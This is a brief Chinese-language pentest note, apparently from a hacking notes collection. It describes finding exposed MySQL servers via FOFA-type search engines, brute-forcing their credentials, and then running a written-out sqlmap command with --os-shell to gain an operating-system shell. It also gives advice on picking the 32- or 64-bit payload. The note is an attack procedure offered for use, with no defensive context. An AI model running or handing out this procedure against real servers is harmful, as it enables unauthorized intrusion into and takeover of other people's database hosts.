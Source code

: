 用途：在fofa类搜索到目标数据库且爆破用户名密码，可以直接用sqlmap提权

```
sqlmap -d mysql://root:root@172.16.12.2:3306/mysql --os-shell
```



![image-20210824182034482](sqlmap提权mysql\image-20210824182034482.png)

按照目标sql的位数选择

32位选择 32位   64位选择32和64的都可以

![image-20210824182219972](sqlmap提权mysql\image-20210824182219972.png)

